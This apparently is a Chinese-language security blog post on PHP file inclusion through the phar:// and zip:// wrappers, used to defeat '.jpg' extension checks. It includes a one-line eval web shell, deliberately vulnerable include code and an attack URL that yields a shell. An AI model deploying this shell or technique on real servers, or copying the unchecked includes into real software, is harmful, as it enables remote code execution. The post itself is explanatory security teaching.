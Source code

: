 ```yaml
---
layout: post
title: 'php利用伪协议文件包含'
subtitle: 'zip和phar文件包含'
date: 2021-05-24
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### phar文件包含
phar协议要求：php大于5.3.0

需要将php.ini的参数phar.readonly设置为off

这个方法适用于验证包含文件为特定后缀时。

使用Phar://伪协议流可以Bypass一些上传的waf，大多数情况下和文件包含一起使用，就类似于我们的压缩包（其实就是一个压缩包），只不过我们换了一种方式去执行而已
> 本地测试：

test.php:
<?php @eval($_POST["cmd"]);?>

然后将test.php压缩，将压缩文件改后缀为.jpg

index.php:
<?php 
include('phar://./test.jpg/test.php');
?>

> 成功包含

![](https://1024861435.github.io/assets/img/1.jpg)

### zip协议包含文件
zip协议要求：php版本要求大于等于5.3.0

这个方法适用于验证包含文件为特定后缀时。 例如以下代码

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

或者
<?php
$file = $_GET['file'];
include($file.'.jpg');
?>

上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

> zip://

首先我们新建一个zip文件，里面压缩着一个php脚本。

![](https://1024861435.github.io/assets/img/2.png)

然后我们构造zip://php.zip#php.jpg

访问http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg

![](https://1024861435.github.io/assets/img/3.png)

这样就成功shell了。

参考:https://xz.aliyun.com/t/3692

https://bl4ck.in/tricks/2015/06/10/zip%E6%88%96phar%E5%8D%8F%E8%AE%AE%E5%8C%85%E5%90%AB%E6%96%87%E4%BB%B6.html

https://lightless.me/archives/include-file-from-zip-or-phar.html

